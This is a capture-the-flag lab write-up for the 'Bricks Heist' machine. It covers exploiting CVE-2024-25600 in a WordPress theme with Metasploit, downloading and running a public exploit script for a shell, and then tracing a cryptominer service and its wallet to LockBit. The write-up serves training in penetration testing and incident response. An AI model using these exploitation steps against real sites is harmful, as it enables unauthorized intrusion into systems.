

**Category:** Web Exploitation / Malware Analysis  
**Difficulty:** Easy
**Objective:** Compromise a vulnerable WordPress instance, investigate persistence mechanisms, and attribute malicious activity to a real-world APT.

## 📝 Executive Summary

During this engagement, I successfully compromised a WordPress host running the vulnerable **Bricks Builder theme** (CVE-2024-25600).

Initial access was gained via an unauthenticated remote code execution vulnerability, which provided a **Meterpreter shell**. Further analysis revealed a **malicious persistence service** (`ubuntu.service`) that deployed a **cryptominer**.

Through analysis of the miner’s configuration (`inet.conf`), I identified a **Bitcoin wallet** used to collect illicit mining rewards. OSINT investigation linked the wallet to the **LockBit ransomware group**, a well-known APT.

**Impact:**

- Unauthorized code execution on the target.
- Evidence of illicit cryptomining.
- Attribution to a real-world ransomware group.

___
# 🔍 Technical Walkthrough

## 1. Initial Enumeration

The target hosted a WordPress site. Using `msfconsole`, I searched for vulnerabilities in the **Bricks Builder** theme:

```bash
msf6 > search bricks
```
The module `exploit/multi/http/wp_bricks_builder_rce` was identified as a recent unauthenticated RCE.


___
## 2. Exploitation with Metasploit

Configured the module with:

```bash
set RHOSTS https://bricks.thm
set LHOST <attacker_ip>
set LPORT 1234
set RPORT 443
run
```


Result:

- WordPress 6.5 detected
- Bricks Builder theme v1.9.5 vulnerable
- **Meterpreter session opened**


📌 First flag retrieved:



___
## 3. Limitations of Meterpreter

- `ps` command failed (restricted environment)
- Shell upgrade unsuccessful

To bypass this, I switched to the **public exploit script** for CVE-2024-25600:

```bash
wget https://raw.githubusercontent.com/Chocapikk/CVE-2024-25600/main/exploit.py
python3 exploit.py -u https://bricks.thm
```
This provided a **fully interactive shell**.


___
##  4. Investigating Persistence

Using `systemctl` to enumerate services:

```bash
systemctl | grep running
systemctl status ubuntu.service
```
Findings:

- Custom service → `ubuntu.service`
- Description → `TRYHACK3M`
- Executable → `/lib/NetworkManager/nm-inet-dialog`


This indicated a **malicious persistence mechanism**.


___
### 5. Miner Log Discovery

Listing the `/lib/NetworkManager/` directory revealed a suspicious config file:

```bash
inet.conf
```


Reading it showed mining logs and an encoded **ID string**.

```bash
cat /lib/NetworkManager/inet.conf
```


___
### 6. Wallet Extraction & Decoding

The encoded string was passed through **CyberChef** (Hex → Base64 decoding).

Recovered wallet address:

```bash
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


To confirm which wallet was valid, i checked both addresses on blockchain.com.


___
### 7. Blockchain Analysis
Checking the wallet on blockchain.com confirmed it was valid.

- Active Bitcoin address
- Associated with large suspicious transactions

While investigating the wallet’s transactions, I identified a **large suspicious transaction**. Tracing it further revealed connections to another wallet:


Further OSINT linked related transactions to:

```bash
3zpTjxTNi7snk8sodgrfmdKao3DEn1nVJM
```

This address is publicly tied to the **LockBit ransomware group**.


___
## 📌 Key Findings

| Category       | Finding                                        |
| -------------- | ---------------------------------------------- |
| Vulnerability  | CVE-2024-25600 (Bricks Builder RCE)            |
| Initial Access | Remote unauthenticated RCE → Meterpreter shell |
| Persistence    | Malicious systemd service `ubuntu.service`     |
| Malware        | Cryptominer binary `nm-inet-dialog`            |
| Config/Logs    | `/lib/NetworkManager/inet.conf`                |
| Wallet         | `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`   |
| Attribution    | Linked to **LockBit Ransomware Group**         |

___
## 🎯 Lessons Learned

- **CMS plugins/themes are high-risk** — patching must be enforced.
- Malicious persistence often masquerades as **system services**.
- Cryptominer configs can directly expose attacker **wallets**.
- OSINT analysis provides real-world **APT attribution**.

___
## ✅ Conclusion

The Bricks Heist machine demonstrated how an unpatched WordPress theme could lead to full system compromise, cryptominer deployment, and connections to real-world ransomware groups.

This exercise not only highlights exploitation and privilege escalation, but also integrates **threat intelligence analysis**, making it highly valuable for both red teaming and incident response skill development.

